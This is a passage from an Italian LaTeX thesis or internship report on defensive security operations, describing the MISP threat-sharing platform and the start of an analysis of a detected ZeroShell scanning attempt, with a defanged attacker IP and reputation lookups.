                
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/dashboardGL.png}
            \end{center}
            \caption{Dashboard threat intelligence Graylog}
            \label{fig:Dashboard threat intelligence Graylog}
    \end{figure}
    
\newpage
    
\section{Malware Information Sharing Platform: MISP}
    
MISP (Malware Information Sharing Platform) è una piattaforma opensource che permette la condivisione di caratteristiche tecniche di malware e minacce all'interno di una comunità di fiducia, senza dover condividere informazioni sul contesto del incidente.\par
MISP fornisce anche meccanismi di automazione che consentono: l'importazione, l'esportazione dei dati in modo automatico e l'integrazione con altri sistemi (es. SIEM, NGAV, ecc..).\par
L'obiettivo della piattaforma è accelerare il rilevamento degli incidenti e la produzione di contromisure di difesa, soprattutto per le minacce zeroday o non ancora riconosciute dai sistemi di detection.\par
Esistono diverse istanze MISP pubbliche gestite da enti privati o istituzionali che concedono l’accesso alla propria piattaforma, creando delle comunità di organizzazioni e utenti che condividono informazioni.\par
Ogni comunità possiede delle regole specifiche per l’iscrizione di nuovi utenti, per esempio, devono rispettare dei protocolli di comunicazione specifici.\par
Di seguito una breve panoramica di alcune comunità esistenti, le rispettive comunità si caratterizzano in base al tipo e al contesto di informazioni condivise:

\begin{itemize}
    \item\textbf{NATO MISP Community:} Istanza MISP utilizzata dalla NATO;
     \item\textbf{MISP COVID-19 Community:} Istanza MISP adattata per la condivisione di informazioni relative al COVID-19. Si concentra su due aree di condivisione: Informazioni mediche, Minacce informatiche e fake news su COVID-19.
     \item\textbf{CIRCL MISP Community:} CIRCL è un CERT che opera nel settore privato e per enti non governativi di Lussemburgo, in questa istanza collaborano più di 1200 organizzazioni europee dove vengono condivise analisi e indicatori di attività malevole.
\end{itemize}

\newpage

Queste comunità di solito permettono ai loro membri di  accedere all'interfaccia MISP dell'istanza pubblica o di sincronizzarsi con la propria istanza MISP privata:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/sunchMISP.png}
    \end{center}
    \caption{Rappresentazione grafica logica di condivisione tra istanze MISP}
    \label{fig:Rappresentazione grafica logica di condivisione tra istanze MISP}
\end{figure}

Durante lo stage mi sono occupato anche di allestire un’istanza MISP per Nais e ho richiesto l’accesso a 2 istanze pubbliche per accedere alle relative community poter ricevere e condividere informazioni:

\begin{itemize}
    \item Istanza MISP CIRCL; 
    \item Istanza MISP COVID-19;
\end{itemize}

\newpage

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/cirl.png}
    \end{center}
    \caption{Dashboard MISP CIRL}
    \label{fig:Dashboard MISP CIRL}
\end{figure}
        
\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.85\columnwidth]{images/4_caso_d'uso_img/covid.png}
    \end{center}
    \caption{Dashboard MISP COVID-19}
    \label{fig:Dashboard MISP COVID-19}
\end{figure}       

\newpage

Per l’istanza COVID è stato molto interessante osservare come uno strumento nato per la cybersecurity sia stato declinato a ricevere anche tipologie di dati fuori dal contesto, come indici dei contagi e segnalazioni di fake news.\par
Per l’accesso alle istanze MISP sopracitate ho seguito la procedura richiesta che consisteva nella prima fase di presentare la propria organizzazione e specificare quale tipo di informazioni potevamo condividere.\par
Nella seconda fase è avvenuto lo scambio di chiavi pubbliche PGP, per avviare un canale di comunicazione cifrato e sicuro. Completata questa fase i relativi admin delle istanze ci hanno creato un utenza con privilegi particolari, permettendoci di sincronizzare le istanze remote con la nostra.\par
Il vantaggio di possedere un’istanza privata consiste nell’avere pieno controllo sulle fonti e dal tipo di eventi ricevuti.\par
Grazie alla sincornizzazione è stato possibile ricevere informazioni e analisi da altre organizzazioni della comunity, filtrate per i contesti di nostro interesse, permettendoci di informare i clienti di nuove campagne di phishing e di addestrare gli strumenti di detecion, con atteggiamento proattivo.

\subsection{Eventi}

Gli eventi sono le entità che popolano la piattaforma, sono da considerare come scatole vuote da riempire con attributi.

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.90\columnwidth]{images/4_caso_d'uso_img/eventMISp.png}
    \end{center}
    \caption{Esempio evento MISP}
    \label{fig:Esempio evento MISP}
\end{figure}  

Quando si crea un evento si possono utilizzare dei template, sostanzialmente dei form preconfigurati per semplificarne la compilazione (es. template evento “phishing” può contenere un sender IP, email adress, conetuto mail,ecc.. ), si possono crearne di nuovi o modificarli in base alle esigenze dei casi d’uso.\par
Glie Eventi se possiedono attributi in comune vengono correlati e mostrati nel “correlation graph”:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/corrMISP.png}
    \end{center}
    \caption{Esempio correlation graph MISP}
    \label{fig:Esempio correlation graph MISP}
\end{figure}  


Un evento si può esportare in diversi formati come regola IDS oppure direttamente il plain text degli attributi.\par
Gli eventi vengono generati tramite due modalità:

\begin{itemize}
    \item\textbf{Organizzazioni remote o locali:} Le organizzazioni generano eventi manualmente, quindi l’analista dell’organizzazione crea un nuovo alert ed esegue manualmente la popolazione/ricerca degli attributi e li inserisce nell’evento, oppure esistono dei connector a piattaforme di detection oppure SIEM che generano in automatico l’evento MISP con le info relative all’allarme SIEM;
    \item\textbf{Feed:} Viene generato un evento a seguito di un pull da una lista di IOC pubblici (es. malwaredomains, ZeuS compromised URL blocklist, ecc...) e sarà popolato da una lista di attributi ricevuti dalla repository interrogata.
\end{itemize}

Gli eventi vengono condivisi tra le varie organizzazioni tramite protocollo TLP.

\newpage

\subsection{Attributi}

Gli attributi sono elementi di informazione, contenuti in un evento, possono essere di tipo url, Ip, domini, link ad analisi esterne, ecc... 
Gli attributi possonono essere organizzati e raggruppati in oggetti e possono essere arricchiti da strumenti di analisi esterni(es. VirusTotal, OTX, GreyNoise, ecc..).

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/attributeMISP.png}
    \end{center}
    \caption{Esempio attributo MISP}
    \label{fig:Esempio attributo MISP}
\end{figure} 

\section{Scenari di attacco}

In questa sezione verranno mostrati due casi di tentativi di attacco che hanno coinvolto la WayneCorp. di come ho utilizzato gli strumenti per eseguire l'analisi e la mitigazione degli stessi.

\subsection{Tentativo accesso tramite Zeroshell su servizio web esposto}

La WayneCorp possiede diversi servizi web esposti e di conseguenza bersagliati continuamente.\par 
OSSIM ha generato un allarme segnalando un tentativo di injection nella quale sono stati correlati 26 eventi:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/zeroshellevents.png}
    \end{center}
    \caption{Allarme OSSIM Zeroshell}
    \label{fig:Allarme OSSIM Zeroshell}
\end{figure} 

Gli eventi correlati riguardano le chiamate e risposte tra l’IP malevolo e il servizio esposto.\par
L’alert è stato generato dalla regola di detection grazie alla subscription al pulse OTX "Scanning Activity for ZeroShell Unauthenticated Access".\par
Il sensore OSSIM durante l’inspection del netflow ha rilevato un IoC presente nell’pulse, generando l’evento SIEM e il conseguente allarme: 

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/inspectionOSSIM.png}
    \end{center}
    \caption{Log pacchetto netflow analizzato}
    \label{fig:Log pacchetto netflow analizzato}
\end{figure} 

Analizzando L’IP esterno (138[.]91[.]224[.]48) presente nella lista di eventi, tramite gli strumenti di analisi, si può osservare che possiede una reputation “poor” e ad esso sono associati 7 pulse OTX:

\begin{figure}[h]
    \begin{center}
        
\includegraphics[width=0.98\columnwidth]{images/4_caso_d'uso_img/talos.jpg}
    \end{center}
    \caption{Analisi IP 138[.]91[.]224[.]48 con Cisco Talos Intelligence }
    \label{fig:Analisi IP1 con Talos}
\end{figure} 

\newpage

\begin{figure}[h]
    \begin{center}
